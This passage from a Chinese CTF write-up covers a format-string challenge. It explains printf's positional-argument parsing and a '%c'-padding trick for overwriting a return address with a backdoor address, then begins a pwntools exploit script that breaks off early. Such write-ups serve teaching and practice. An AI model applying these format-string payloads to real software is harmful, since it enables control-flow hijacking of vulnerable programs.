 ```python

try:
    exp()
    io.interactive()
finally:
    exp_fini()
```

## One Chance!

> 只有一次机会怎么构造？
>
> 
>
> hint
>
> - 位置指定的格式化字符，例如`%10$p`，是在什么时候解析的？

预期难度：Hard--

**题目分析**

程序给了栈地址和后门函数，但只有一次构造的机会，并且 fmt 在 bss 段上。我们的目标当然是修改返回地址到后门上。

可以很容易就会想到，我们先修改一次栈上的链子到返回地址上，然后通过链子直接改返回地址的低字节到后门上。于是我们就会构造出类似`'%...c%15$hn' + '%...c%45$hhn'`这种 payload，但是实际运行后发现打不通。

这和 printf 的解析机制有关：在 printf 函数遇到第一个位置指定的格式化字符串`%15$hn`后，就会把整个格式化字符串中的位置指定的字符一起解析了，也就是说这时`%45$hhn`已经被解析了，并且拿到的地址是一个与返回地址没有任何关系的栈地址。而之后我们才将 45 位置的值改成返回地址，但这时已经没用了。

而要绕过这个机制也简单：如果 printf 在遇到第一个位置指定的格式化字符后才会触发这种机制，那我们就先不使用这种格式化字符不就行了？所以我们在前面可以构造`'%c' * 13 + f'%{ret_addr - 13}c%hn'`这种 payload，这会向 15 位置的地址的值修改，但是却不会触发这种机制。

**实现**

虽然题目开启了 PIE，但因为返回地址和后门函数只相差了一个字节，所以我们直接覆盖最低字节到后门就行了。

1. 第一步我们先构造`'%c' * 13 + f'%{ret_addr - 13}c%hn'`来修改一个栈上指针指向返回地址。
2. 然后就是构造要写入返回地址中的值。
   1. 先使用`((ret_addr + 0xff) & ~0xff)`将字符数向 0x100 对齐
   2. `+ (backdoor & 0xff)`来将最低字节设置成 backdoor 地址的最低字节
   3. ` - ret_addr`第二次要打印的字符数

**exp**

```python
#! /usr/bin/env python3.8
from pwn import *
from ctools import *

context(os="linux", arch="amd64")
TMUX_TERMINAL()
# context.log_level = "debug"

elf_path = './pwn'
libc_path = './libc.so.6'

init_elf_with_libc(elf_path, libc_path)
DEBUG = lambda script = '': gdb.attach(io, gdbscript=script)

conn_context(host='127.0.0.1', port=9999, level=REMOTE, elf=elf_path)

elf = ELF(elf_path)
# libc = ELF(libc_path, checksec=False)
io = conn()
    
def exp():
    io.recvuntil(b'0x')
```